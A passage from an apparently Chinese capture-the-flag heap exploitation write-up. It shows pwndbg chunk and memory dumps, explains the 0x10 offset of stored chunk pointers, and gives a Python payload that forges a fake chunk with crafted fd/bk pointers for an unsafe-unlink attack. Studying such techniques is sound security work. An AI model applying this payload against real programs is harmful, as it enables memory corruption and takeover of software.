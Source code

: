 ```
Allocated chunk | PREV_INUSE       //3
Addr: 0x1753570
Size: 0x91

Top chunk | PREV_INUSE
Addr: 0x1753600
Size: 0x20a01
```

将每个chunk的首地址存储在0x602140这个地址中，为什么都在上面chunk Addr地址的基础上都加了0x10呢

因为这个地址是堆中开始允许写的地址，而上面chunk的Addr是每个chunk pre_size处的地址,这0x10就包括pre_size和size

```
pwndbg> x /20gx 0x602140
0x602140:	0x0000000000000000	0x0000000001753020      //1
0x602150:	0x0000000001753540	0x0000000001753580      //2   3
0x602160:	0x0000000000000000	0x0000000000000000
0x602170:	0x0000000000000000	0x0000000000000000
0x602180:	0x0000000000000000	0x0000000000000000
0x602190:	0x0000000000000000	0x0000000000000000
0x6021a0:	0x0000000000000000	0x0000000000000000
0x6021b0:	0x0000000000000000	0x0000000000000000
0x6021c0:	0x0000000000000000	0x0000000000000000
0x6021d0:	0x0000000000000000	0x0000000000000000
```

这个就是0x1cc2530中存储的内容

```
pwndbg> x /20gx 0x0000000001753530
0x1753530:	0x0000000000000000	0x0000000000000041        //表示该chunk的size
0x1753540:	0x0000000000000000	0x0000000000000000        //我们实际开始写入的地方，global也就是保存这个地址
0x1753550:	0x0000000000000000	0x0000000000000000
0x1753560:	0x0000000000000000	0x0000000000000000
0x1753570:	0x0000000000000000	0x0000000000000091
0x1753580:	0x0000000000000000	0x0000000000000000
0x1753590:	0x0000000000000000	0x0000000000000000
0x17535a0:	0x0000000000000000	0x0000000000000000
0x17535b0:	0x0000000000000000	0x0000000000000000
0x17535c0:	0x0000000000000000	0x0000000000000000
```

**第二步**：伪造chunk2并写入

```python
#伪造chunk2
fd = head+16-0x18
bk = head+16-0x10
payload1 = p64(0)+p64(0x30)+p64(fd)+p64(bk)
payload1 = payload1.ljust(0x30,'A')
payload1 += p64(0x30) + p64(0x90)
#将伪造好的chunk2写到相应的内存中
edit(2, len(payload1), payload1)
```
